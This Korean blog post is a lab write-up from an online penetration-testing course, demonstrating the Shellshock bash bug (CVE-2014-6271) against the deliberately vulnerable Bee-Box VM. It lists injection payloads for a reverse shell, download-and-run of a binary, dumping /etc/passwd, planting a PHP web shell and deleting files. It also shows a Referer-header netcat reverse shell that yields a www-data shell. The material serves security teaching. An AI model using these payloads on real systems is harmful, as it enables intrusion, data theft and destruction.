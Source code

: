 ```yaml
---
layout: post
title: "비박스를 활용한 웹 모의해킹 완벽 실습 - 셀쇼크 취약점(CVE-2014-6271)"
excerpt_separator:  <!--more-->
categories:
 - WebHack
tags:
  - 웹 해킹
  - 인프런
  - Part9 A9
  - 알려진 취약점이 있는 컴포넌트 사용
---
```


<!--more-->

# 출처

## 인프런, 비박스를 활용한 웹 모의해킹 완벽 실습 25강 <https://www.inflearn.com/course/%EB%B9%84%EB%B0%95%EC%8A%A4-%EB%AA%A8%EC%9D%98%ED%95%B4%ED%82%B9-%EC%8B%A4%EC%8A%B5/>

---

## ShellShock 취약점 (CVE-2014-6271)

![image](https://user-images.githubusercontent.com/28076542/53467152-42b35600-3a98-11e9-9ff0-0f6b86f75ecf.png)

* 예전 bash를 쓰는 운영체제는 모두 발생하는 취약점

## ShellShock 취약점 분석

* 환경 변수와 함께 선언되는 함수 선언과 명령어 삽입
* **함수가 아닌** 일반 환경 변수가 `() { <함수 body> }; <공격하려는 코드>`일 때 child로 생성된 Bash shell에서 함수로 인식되는 버그
* [참고 자료](https://namu.wiki/w/%EC%85%B8%EC%87%BC%ED%81%AC)

![image](https://user-images.githubusercontent.com/28076542/53467205-89a14b80-3a98-11e9-849a-5a87137cdab2.png)

## 패치 적용된 칼리리눅스와 적용 안 된 Bee-Box 비교

### 칼리리눅스

```bash
root@ming:~# env var='() { :;}; echo 1234' bash -c "echo test"
test
```

### Bee-Box

```bash
bee@bee-box:~$ env var='() { :;}; echo 1234' bash -c "echo test"
1234
test
```

## ShellShock 취약점 Exploit 페이로드

* `() { :;}; 삽입 명령어`

|공격|삽입 명령어|
|:----:|:----:|
|리버스 셸 연결|`/bin/bash -i > /dev/tcp/localhost/8081 0>&1`|
|악성파일 다운|`wget -O /tmp/syslogd http://localhost/prog; chmod 777 /tmp/syslogd; /tmp/syslogd;`|
|시스템 상태 체크|`/bin/ping -c localhost`|
|계정 탈취|`/bin/cat /etc/passwd > dumped_file`|
|웹 셸 생성|`echo \"<? \\$cmd = \\$_REQUEST[\\\"cmd\\\"]; if(\\$cmd != \\\"\\\") print Shell_Exec(\\$cmd;?>\" > ../../p.php& o`|
|시스템 재시작|`/bin/bash -c \"reboot\"`|
|PHP 소스 삭제|`find / -name *.php | xargs rm -rf`|

---

## Shellshock Vulnerability (CGI)

![image](https://user-images.githubusercontent.com/28076542/53469516-9c6c4e00-3aa1-11e9-8d07-5d7a8024d374.png)

```bash
bee@bee-box:/usr/bin$ ls -l php5-cgi
-rw-r--r-- 1 root root 5482364 2008-02-27 21:50 php5-cgi
bee@bee-box:/usr/bin$ sudo chmod 755 php5-cgi
[sudo] password for bee: 
bee@bee-box:/usr/bin$ ls -l php5-cgi
-rwxr-xr-x 1 root root 5482364 2008-02-27 21:50 php5-cgi
```

* 우선 Bee-Box에서 php5-cgi 파일에 실행 권한을 줌

### 1. BurpSuite 프록시 잡기

![image](https://user-images.githubusercontent.com/28076542/53470027-96776c80-3aa3-11e9-8d98-08d84a72ebd6.png)

* 한 번 forward 해주면 뒤에 referer가 달린 GET 요청이 또 나옴

### 2. 칼리리눅스 아이피 확인 및 8888 포트 열기

```bash
root@ming:~# ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.190.155  netmask 255.255.255.0  broadcast 192.168.190.255
        inet6 fe80::20c:29ff:fe1d:546c  prefixlen 64  scopeid 0x20<link>
        ether 00:0c:29:1d:54:6c  txqueuelen 1000  (Ethernet)
        RX packets 54529  bytes 38260116 (36.4 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 26738  bytes 4522044 (4.3 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 24137  bytes 7619271 (7.2 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 24137  bytes 7619271 (7.2 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

root@ming:~# nc -lvp 8888
listening on [any] 8888 ...
```

### 3. Repeater로 넘긴 후 Referer 수정

![image](https://user-images.githubusercontent.com/28076542/53470899-68dff280-3aa6-11e9-9688-a0889088c1ae.png)

* Referer: `() { :;}; /bin/bash -c "nc 192.168.190.155 8888 -e /bin/bash"`
* 위 명령어에 들어가는 아이피는 칼리리눅스 아이피
* 웹에서 Referer는 터미널에서의 환경 변수처럼 작동하여 ShellShock 취약점이 발생되는 것 
* `nc 192.168.190.155 8888 -e /bin/bash")`: 아이피 주소 192.168.190.155, 포트 8888에 접속한 후 `/bin/bash`를 실행하여라 --> `-e`: execute

### 4. Go 버튼 누르고 칼리리눅스 터미널 확인

```bash
root@ming:~# nc -lvp 8888
listening on [any] 8888 ...
192.168.190.143: inverse host lookup failed: Unknown host
connect to [192.168.190.155] from (UNKNOWN) [192.168.190.143] 60736
whoami
www-data
```

* Referer말고 다른 부분에서도 ShellShock 코드를 삽입 가능하다고 함 --> [참고](https://blog.cloudflare.com/inside-shellshock/)